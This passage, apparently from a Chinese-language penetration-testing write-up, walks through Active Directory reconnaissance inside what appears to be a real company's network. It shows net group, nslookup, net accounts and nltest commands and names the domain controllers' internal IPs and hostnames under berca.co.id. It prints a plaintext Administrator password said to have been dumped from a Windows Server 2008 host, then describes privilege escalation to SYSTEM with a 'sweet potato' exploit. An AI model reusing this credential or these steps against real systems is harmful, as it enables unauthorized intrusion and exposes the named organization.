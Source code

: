 ```php
net group "Domain Controllers" /domain  //查看域控列表
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-e257d62032423c0cf44bc014b3ab979ab5dead83.png)

```php
Nslookup -type=SRV \_ldap.\_tcp  //查看域控主机名
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-6cdb16dd117c33ed5ce0996891035b670690acf1.png)

得到两台域控的地址和主机名：

```php
192.168.15.187 adbhpsrv.berca.co.id

192.168.15.180 adbhpsrv02.berca.co.id
```

```php
net group "domain admins" /domain  //查询域管
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-83a676689853f5251b4a106254d76854f9efe0dd.png)

域管还挺多，我们只要能拿到一个域管的权限，就可以在这个域内漫游了

```php
net accounts /domain  //获取域密码信息
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-ead3089754852842c7b0d801b45103d89bdc1334.png)

```php
nltest /domain\_trusts  获取域信任信息
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-4ef31f120815c5fa48548eab674acc64b9b6f922.png)

### 抓取hash

在内网渗透中，很多横向移动的方法都需要先获取用户的密码或者Hash值才能进行，比如哈希传递攻击、票据传递等等。

因为目标机是windows server 2008，所以直接抓到了明文密码：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-4657a64383f80a2a96415713bcd806bad434bee0.png)

得到明文密码：`Administrator/Psft24680!!@@62##`

### 提权

因为当前是一个Administrator权限，当前主机补丁打得也比较少，所以这里尝试利用甜土豆提权到system，提权成功反弹回来一个system权限的会话

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-519ca7b3846e349cc186f10d684514c4aa7f8752.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-c5847aaae04487f17f6ee38e956e51003c005d0f.png)
